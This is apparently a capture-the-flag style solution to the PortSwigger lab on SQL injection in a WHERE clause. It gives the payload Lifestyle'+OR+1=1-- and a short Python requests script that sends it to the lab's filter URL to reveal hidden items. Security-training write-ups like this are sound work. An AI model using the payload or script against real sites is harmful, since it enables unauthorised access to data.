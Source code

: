 ```yaml
---
title:
  SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
tags:
  - web-app
  - sql
  - injection
---
```


<a href="https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data/">
1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data</a>

Simple SQL injection vulnerability. The website allows you to filter for certain
items for sale via the URL /filter?category= form. Using this, we can see that
different filters like "Lifestyle" are accepted. No sanitization is conducted
for user input, so we leverage SQL injection to expose all existing items from
the table:

/filter?category=Lifestyle'+OR+1=1--

Solution:

```python
# usage:
# python3 1.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net

from argparse import ArgumentParser

import requests


class Solution:
    def __init__(self, url: str) -> None:
        self.url = url.rstrip("/")

    def solve(self) -> None:
        self.s = requests.Session()
        r = self.s.get(f"{self.url}/filter?category=Lifestyle'+OR+1=1--")
        print(r.text)


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    args = parser.parse_args()
    s = Solution(args.url)
    s.solve()


if __name__ == "__main__":
    main()
```

